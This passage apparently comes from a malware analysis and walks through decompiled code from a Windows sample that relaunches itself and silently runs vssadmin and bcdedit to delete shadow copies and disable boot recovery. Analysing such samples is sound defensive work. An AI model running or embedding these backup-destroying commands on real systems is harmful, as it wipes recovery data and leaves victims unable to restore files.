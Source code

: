The following function at the entry point performs these actions:

```cpp
BOOL8 RunProcessAtLowIntegrity()
{
  _BOOL8 result; // rax
  SHELLEXECUTEINFOA *pExecInfo; // [rsp+20h] [rbp-28h]
  CHAR *lpFilename; // [rsp+28h] [rbp-20h]
  HANDLE CurrentProcess_0; // [rsp+30h] [rbp-18h]

  if ( !qword_7FF6CD43EAC8 )
    GetAdvapi32Module();
  if ( !qword_7FF6CD43F110 )
    GetUser32ModuleHandle_0();
  CurrentProcess_0 = GetCurrentProcess_0();
  result = IsLowIntegrityLevel(CurrentProcess_0);
  if ( result )
  {
    lpFilename = (CHAR *)AllocateMemoryFromHeap(0x104u);
    GetModuleFileNameA(0i64, lpFilename, 0x104u);
    pExecInfo = (SHELLEXECUTEINFOA *)AllocateMemoryFromHeap(0x70u);
    pExecInfo->cbSize = 112;
    pExecInfo->fMask = 0;
    decryptString(aOpen, 6u);
    pExecInfo->lpVerb = aOpen;
    pExecInfo->lpFile = lpFilename;
    pExecInfo->nShow = 0;
    pExecInfo->hwnd = (HWND)GetForegroundWindow();
    while ( !ShellExecuteExA(pExecInfo) )
      ;
    FreeHeapMemory((__int64)pExecInfo);
    FreeHeapMemory((__int64)lpFilename);
    ExitProcess(0);
  }
  return result;
}
```

Just recreates the process with a reduced `Integrity` level, it's not that important, let's move on to the next one:

```cpp
__int64 DestroyRecoveryAndBackup()
{
  SHELLEXECUTEINFOA *pExecInfo; // [rsp+20h] [rbp-18h]

  decryptString(aCmdExe, 8u);
  // /c vssadmin.exe Delete Shadows /All /Quiet &
  // bcdedit /set {default} recoveryenabled No &
  // bcdedit /set {default} bootstatuspolicy ignoreallfailures
  decryptString(aVssAdmin, 0x92u);
  decryptString(aOpen_0, 5u);
  pExecInfo = (SHELLEXECUTEINFOA *)AllocateMemoryFromHeap(0x70u);
  pExecInfo->cbSize = 112;
  pExecInfo->fMask = 0;
  pExecInfo->lpVerb = aOpen_0;
  pExecInfo->lpFile = aCmdExe;
  pExecInfo->nShow = 0;
  pExecInfo->hwnd = GetForegroundWindow();
  pExecInfo->lpParameters = aVssAdmin;
  ShellExecuteExA(pExecInfo);
  FreeHeapMemory((__int64)pExecInfo);
  return RtlZeroMemory_0((__int64)aVssAdmin, 146i64);
}
```
